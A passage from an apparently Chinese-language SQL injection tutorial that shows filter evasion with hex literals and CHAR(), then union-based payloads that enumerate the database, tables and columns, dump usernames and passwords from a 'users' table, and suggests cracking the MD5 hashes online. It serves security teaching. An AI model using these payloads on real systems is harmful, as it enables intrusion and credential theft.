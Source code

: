 ```
select * from users where user = 0x61646D696E;
```

[2]使用char函数，但这里char函数使用的参数是十进制的ascii数值。比如admin

```
CHAR(97, 100, 109, 105, 110)
```

构造的payload像这样即可

```
select * from users where user = CHAR(97, 100, 109, 105, 110);
```

3、这里构造最终的payload

获取数据库名：

```
-1 union select 1,database()
```

获取表名：

```
-1 union select table_name,2 from information_schema.tables where table_schema = database()
```

![](../img/07b74fc3c7414f2d9ef061e1b3596a3c.png)

获取users表的列名

```
-1 union select column_name,2 from information_schema.columns where table_schema = database() and table_name = 0x7573657273
```

获取数据表内容

```
-1 union select user,password from users;
```

4、好了又到去MD5网站破解密码的时候，小伙伴兴奋否，又是一次验证自己成果的时候。
